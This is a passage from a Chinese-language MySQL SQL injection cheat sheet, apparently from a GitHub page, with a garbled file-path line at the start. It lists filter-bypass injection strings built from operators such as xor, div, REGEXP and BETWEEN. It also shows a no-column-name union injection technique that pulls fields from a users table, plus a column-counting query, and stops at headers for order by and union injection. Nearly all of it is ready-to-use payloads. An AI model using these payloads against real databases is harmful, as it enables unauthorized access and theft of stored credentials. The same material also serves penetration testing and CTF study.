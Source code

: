 - = 等于
```
username='admin'=(payload)
```

### 其他
```
'+1 is not null#  
'in(-1,1)#  
'not in(1,0)#  
'like 1#  
'REGEXP 1#  
'BETWEEN 1 AND 1#  
'div 1#  
'xor 1#  
'=round(0,1)='1  
'<>ifnull(1,2)='1
```

## Mysql 无列名注入

```
select * from users
```
![](https://ae01.alicdn.com/kf/Hc656c2e1dd0348dd96806231e537cbdfj.jpg)

```
select 1,2,3 union select * from users;
```

![](https://ae01.alicdn.com/kf/H7c76e69fb778415691ea95d325c2e513j.jpg)

```
select `2` from (select 1,2,3 union select * from users)redforce;
```

![](https://ae01.alicdn.com/kf/Hee222a2322e842c4824ece7eff8f97459.jpg)

```
select * from users where id=-1 union select 1,(select concat(`2`,0x3a,`3`) from (select 1,2,3 union select * from users)a limit 1,1),3;
```
![](https://ae01.alicdn.com/kf/H639f71bf43fd4ae4ac0adc2f334b18beF.jpg)

### 查询几个字段数目

```
select * from (select 1)a,(select 2)b,(select 3 )c union select * from users
```

## Mysql order by 注入

### union 注入
